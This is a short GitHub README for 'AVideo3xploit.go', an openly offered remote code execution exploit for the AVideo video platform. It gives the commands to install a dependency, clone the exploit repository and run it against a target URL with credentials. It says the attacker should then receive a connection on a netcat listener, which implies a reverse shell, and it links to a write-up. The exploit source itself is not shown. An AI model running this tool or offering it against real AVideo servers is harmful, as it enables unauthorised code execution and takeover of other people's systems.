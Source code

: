 # AVideo3xploit.go

RCE exploit for [AVideo](https://github.com/WWBN/AVideo/)

```
root@kali:~# go get github.com/fatih/color
root@kali:~# git clone https://github.com/ahussam/AVideo3xploit.git
root@kali:~# cd AVideo3xploit
root@kali:~/AVideo3xploit# go run AVideo3xploit.go http://[target]/avideo/ username password
```

You should get a connection on you nc 

![avideo-5](av-5.png)

## Write-up 

https://cube01.io/blog/Avideo-Remote-Code-Execution.html

